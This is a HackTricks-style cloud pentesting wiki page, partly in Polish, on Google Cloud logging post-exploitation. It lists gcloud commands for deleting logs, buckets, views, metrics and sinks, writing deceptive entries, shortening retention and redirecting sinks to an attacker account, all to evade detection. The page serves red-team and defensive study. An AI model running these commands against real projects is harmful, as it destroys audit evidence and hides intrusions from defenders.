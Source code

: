 # GCP - Logging Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Podstawowe informacje

For more information check:

{% content-ref url="../gcp-services/gcp-logging-enum.md" %}
[gcp-logging-enum.md](../gcp-services/gcp-logging-enum.md)
{% endcontent-ref %}

For other ways to disrupt monitoring check:

{% content-ref url="gcp-monitoring-post-exploitation.md" %}
[gcp-monitoring-post-exploitation.md](gcp-monitoring-post-exploitation.md)
{% endcontent-ref %}

### Domyślne logowanie

**Domyślnie nie zostaniesz złapany tylko za wykonywanie akcji odczytu. Aby uzyskać więcej informacji, sprawdź sekcję Logging Enum.**

### Dodaj wykluczony podmiot

W [https://console.cloud.google.com/iam-admin/audit/allservices](https://console.cloud.google.com/iam-admin/audit/allservices) i [https://console.cloud.google.com/iam-admin/audit](https://console.cloud.google.com/iam-admin/audit) można dodać podmioty, aby nie generować logów. Atakujący mógłby to wykorzystać, aby zapobiec złapaniu.

### Odczytaj logi - `logging.logEntries.list`

{% code overflow="wrap" %}
```bash
# Read logs
gcloud logging read "logName=projects/your-project-id/logs/log-id" --limit=10 --format=json

# Everything from a timestamp
gcloud logging read "timestamp >= \"2023-01-01T00:00:00Z\"" --limit=10 --format=json

# Use these options to indicate a different bucket or view to use: --bucket=_Required  --view=_Default
```
{% endcode %}

### `logging.logs.delete`

{% code overflow="wrap" %}
```bash
# Delete all entries from a log in the _Default log bucket - logging.logs.delete
gcloud logging logs delete <log-name>
```
{% endcode %}

### Zapisz logi - `logging.logEntries.create`

{% code overflow="wrap" %}
```bash
# Write a log entry to try to disrupt some system
gcloud logging write LOG_NAME "A deceptive log entry" --severity=ERROR
```
### `logging.buckets.update`
```bash
# Set retention period to 1 day (_Required has a fixed one of 400days)

gcloud logging buckets update bucketlog --location=<location> --description="New description" --retention-days=1
```
{% endcode %}

### `logging.buckets.delete`
```bash
# Delete log bucket
gcloud logging buckets delete BUCKET_NAME --location=<location>
```
### `logging.links.delete`

{% code overflow="wrap" %}
```bash
# Delete link
gcloud logging links delete <link-id> --bucket <bucket> --location <location>
```
{% endcode %}

### `logging.views.delete`
```bash
# Delete a logging view to remove access to anyone using it
gcloud logging views delete <view-id> --bucket=<bucket> --location=global
```
### `logging.views.update`

{% code overflow="wrap" %}
```bash
# Update a logging view to hide data
gcloud logging views update <view-id> --log-filter="resource.type=gce_instance" --bucket=<bucket> --location=global --description="New description for the log view"
```
{% endcode %}

### `logging.logMetrics.update`

{% code overflow="wrap" %}
```bash
# Update log based metrics - logging.logMetrics.update
gcloud logging metrics update <metric-name> --description="Changed metric description" --log-filter="severity>CRITICAL" --project=PROJECT_ID
```
{% endcode %}

### `logging.logMetrics.delete`
```bash
# Delete log based metrics - logging.logMetrics.delete
gcloud logging metrics delete <metric-name>
```
### `logging.sinks.delete`
```bash
# Delete sink - logging.sinks.delete
gcloud logging sinks delete <sink-name>
```
### `logging.sinks.update`

{% code overflow="wrap" %}
```bash
# Disable sink - logging.sinks.update
gcloud logging sinks update <sink-name> --disabled

# Createa filter to exclude attackers logs - logging.sinks.update
gcloud logging sinks update SINK_NAME --add-exclusion="name=exclude-info-logs,filter=severity<INFO"

# Change where the sink is storing the data - logging.sinks.update
gcloud logging sinks update <sink-name> new-destination

# Change the service account to one withuot permissions to write in the destination - logging.sinks.update
gcloud logging sinks update SINK_NAME --custom-writer-identity=attacker-service-account-email --project=PROJECT_ID

# Remove explusions to try to overload with logs - logging.sinks.update
gcloud logging sinks update SINK_NAME --clear-exclusions

# If the sink exports to BigQuery, an attacker might enable or disable the use of partitioned tables, potentially leading to inefficient querying and higher costs. - logging.sinks.update
gcloud logging sinks update SINK_NAME --use-partitioned-tables
gcloud logging sinks update SINK_NAME --no-use-partitioned-tables
```
{% endcode %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
